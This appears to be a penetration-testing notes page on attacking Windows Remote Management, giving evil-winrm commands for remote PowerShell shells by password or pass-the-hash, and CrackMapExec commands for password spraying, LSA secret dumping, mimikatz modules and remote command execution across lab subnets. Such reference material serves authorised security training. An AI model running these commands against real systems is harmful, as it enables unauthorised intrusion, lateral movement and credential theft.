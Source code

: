# WinRM

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Windows dosent have a banner to say it is winrm.We can tell if it winrm by port  5985 - 5986
{% endhint %}

## Metasploit Metepreter Exploit

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Set paylaod metepreter

## &#x20;evil-winrm

`Evil-WinRM` is a popular post-exploitation tool used by red teamers and penetration testers to get a PowerShell remote shell on a Windows machine using **WinRM** (Windows Remote Management). It's especially useful when you have **valid credentials** (username + password or NTLM hash).

### 🔧 Requirements

* **Valid credentials** (username + password OR NTLM hash).
* **WinRM enabled** on the target (usually port **5985** for HTTP or **5986** for HTTPS).
* Ruby and Bundler (if installing from source) or use Kali Linux (already installed).

### 🚀 Basic Usage (with Password)

```bash
evil-winrm -i <TARGET-IP> -u <USERNAME> -p <PASSWORD>
```

Example:

```bash
evil-winrm -i 10.10.10.123 -u administrator -p 'Passw0rd!'
```

### 🔐 Using NTLM Hash (Pass-the-Hash)

```bash
evil-winrm -i <TARGET-IP> -u <USERNAME> -H <NTLM-HASH>
```

Example:

```bash
evil-winrm -i 10.10.10.123 -u administrator -H aad3b435b51404eeaad3b435b51404ee:6cb75f652a9b52798eb6cf2201057c73
```

## &#x20;crackmapexec

CrackMapExec is a Swiss Army knife for pentesters that helps automate:

* Credential validation across many hosts
* Lateral movement via SMB, WinRM, or others
* Executing commands remotely
* Harvesting credentials and hashes
* Checking SMB shares and system info

### Basic Usage Syntax

```bash
crackmapexec <protocol> <target> [options]
```

* `<protocol>`: `smb`, `winrm`, `rdp`, `mssql`, etc.
* `<target>`: IP, IP range, CIDR, or list of IPs (e.g., `10.10.10.0/24`)

### Common Examples

1. SMB Login Check with Username & Password

```bash
crackmapexec smb 10.10.10.0/24 -u administrator -p 'Password123'
```

2. Using Username and NTLM Hash (Pass-the-Hash)

```bash
crackmapexec smb 10.10.10.0/24 -u administrator -H <NTLM_HASH>
```

3. Using a Password List for Password Spraying

```bash
crackmapexec smb 10.10.10.0/24 -u administrator -p /path/to/password_list.txt
```

4. Use with a File of Credentials

```
crackmapexec smb 10.10.10.0/24 -C creds.txt
```

Where `creds.txt` format:

```
username:password
user2:pass2
```

### Important Flags and Options

| Option        | Description                              |
| ------------- | ---------------------------------------- |
| `-u`          | Username                                 |
| `-p`          | Password or password list                |
| `-H`          | NTLM hash (pass-the-hash)                |
| `-d`          | Domain name                              |
| `-x`          | Execute command remotely                 |
| `--shares`    | List SMB shares                          |
| `--users`     | Enumerate users                          |
| `--lsa`       | Dump LSA secrets (requires privileges)   |
| `-M <module>` | Run a specific module (e.g., `mimikatz`) |

## Run commands on target

Basic syntax to run a command on a target

```
crackmapexec smb <target-ip-or-range> -u <username> -p <password> -x "<command>"
```

Example: Run `whoami` on a single host

```
crackmapexec smb 10.10.10.123 -u administrator -p 'Password123' -x "whoami"
```
